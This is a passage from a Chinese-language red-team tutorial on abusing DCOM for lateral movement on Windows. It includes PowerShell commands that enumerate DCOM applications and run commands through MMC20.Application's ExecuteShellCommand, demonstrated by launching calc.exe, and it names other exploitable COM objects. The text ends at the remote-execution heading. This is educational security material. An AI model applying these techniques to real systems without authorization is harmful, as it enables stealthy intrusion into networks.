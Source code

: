 ## 2、DCOM 在远程系统中的使用

COM 即组件对象模型 (Component Object Model，COM) ，是基于 Windows 平台的一套组件对象接口标准，由一组构造规范和组件对象库组成。

COM 是许多微软产品和技术如 Windows 媒体播放器和 Windows Server 的基础。

DCOM （分布式组件对象模型）是微软基于组件对象模型（COM）的一系列概念和程序接口，DCOM 是 COM（组件对象模型）的扩展。

它支持不同的两台机器上的组件间的通信，不论它们是运行在局域网、广域网、还是 Internet 上，利用这个接口，客户端程序对象能够向网络中另一台计算机上的服务器程序对象发送请求。

攻击者可使用 DCOM 进行横向移动，通过 DCOM 攻击者可在拥有适当权限的情况下通过 Office 应用程序以及包含不安全方法的其他 Windows 对象远程执行命令。

使用 DCOM 进行横向移动的优势之一在于，在远程主机上执行的进程将会是托管 COM 服务器端的软件。例如我们滥用 ShellBrowserWindow COM 对象，那么就会在远程主机的现有 explorer.exe 进程中执行。

对攻击者而言，这无疑能够增强隐蔽性，由于有大量程序都会向 DCOM 公开方法，因此防御者较难以监测所有程序。

### 在本地通过 DCOM 执行命令

1、获取 DCOM 程序列表

Get-CimInstance 是 PowerShell 3.0 以上的版本自带的，因此只有 Windows Server 2012 及以上的操作系统才会自带 Get-CimInstance 命令

```
Get-CimInstance Win32_DCOMApplication
```

在 Windows 7 和 Windows Server 2008 中可以使用 Get-WmiObject 替代 Get-CimInstance

```
Get-WmiObject -Namespace ROOT\CIMV2 -Class Win32_DCOMApplication
```

2、使用 DCOM 执行任意命令

在 DCOM 程序列表中有个 MMC Application Class（MMC20.Application），这个 COM 对象可以编程 MMC 管理单元操作的组件脚本。

在本地以管理员权限启动一个 PowerShell，并执行以下命令

```
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","127.0.0.1"))
```

获得COM对象的实例后，还可以执行如下命令枚举这个 COM 对象中的不同方法和属性

```
$com.Document.ActiveView | Get-Member
```

在 MMC20.Application 中有个 ExecuteShellCommand 方法，我们可以拿它来执行命令，比如启动个计算器

```
$com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c calc.exe","Minimized")
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210902171015.png)

除了 MMC20.Application 还有 ShellWindows、ShellBrowserWindow、Excel.Application 以及 Outlook.Application 等等可以被我们利用。

### 使用 DCOM 在远程主机上执行命令
